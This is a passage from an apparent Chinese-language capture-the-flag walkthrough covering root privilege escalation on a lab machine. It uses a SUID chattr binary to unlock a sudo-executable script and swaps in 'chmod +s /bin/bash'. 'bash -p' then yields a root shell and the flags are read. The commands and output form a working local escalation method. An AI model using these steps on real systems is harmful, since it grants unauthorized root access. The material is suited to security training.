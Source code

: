 > **知识点补充**：`lsattr` 命令用于查看文件的扩展属性。这里的 `i` 属性（immutable）意味着该文件被“锁定”，即便是root用户也无法修改、删除、重命名或创建链接。

现在，两条线索完美地结合在了一起：`chat` 文件因为 `i` 属性而无法被修改，而我们恰好拥有一个带SUID的 `chattr` 命令，可以用它来移除这个 `i` 属性。

## **2. 替换文件并提权**

提权思路已经清晰：

1.  利用带SUID的 `/usr/bin/chattr` 移除 `/home/discuz/chat` 的 `i` 属性。
2.  将 `/home/discuz/chat` 替换为我们自己的恶意脚本。
3.  通过 `sudo` 执行修改后的 `chat` 脚本，以root权限完成提权。

我们构造的恶意脚本功能是为 `/bin/bash` 添加SUID权限位，这样我们就能随时通过 `bash -p` 获取一个root shell。

执行以下命令：

```shell
# 1. 利用SUID chattr移除 i 属性
discuz@Chat2:~$ /usr/bin/chattr -i /home/discuz/chat

# 2. 备份原文件并创建恶意脚本
discuz@Chat2:~$ mv chat chat.bak
discuz@Chat2:~$ echo 'chmod +s /bin/bash' > chat
discuz@Chat2:~$ chmod +x chat

# 3. 检查 /bin/bash 当前权限
discuz@Chat2:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash

# 4. 使用sudo执行我们的脚本
discuz@Chat2:~$ sudo /home/discuz/chat

# 5. 再次检查 /bin/bash 权限，确认SUID位已添加
discuz@Chat2:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

可以看到 `/bin/bash` 已经拥有了 `rws` 权限，SUID位设置成功。

## **3. 获取Root Shell**

最后，执行 `bash -p` 命令，利用SUID权限获得一个 euid 为 0 (root) 的shell。

```shell
discuz@Chat2:~$ bash -p
bash-5.0# id
uid=1000(discuz) gid=1000(discuz) euid=0(root) egid=0(root) groups=0(root),1000(discuz)
```

> **知识点补充**：`bash -p` 中的 `-p` 参数告诉bash不要将有效用户ID（euid）重置为实际用户ID（uid）。如果一个可执行文件（如bash）设置了SUID位，普通用户执行它时，进程的euid会变成文件所有者（root）的ID。`-p` 参数保留了这个提权后的euid，从而让我们获得root权限的shell。

# **五、夺取凭证**

成功获取root权限后，我们读取位于用户目录和root目录下的flag文件。

```shell
bash-5.0# cat /home/discuz/user.txt /root/root.txt
flag{user-41352be6a84e5910fdef6afec4e41617}
flag{root-099177104a7291ba00f83ab188987c5d}
```

成功获取所有flag，渗透测试结束。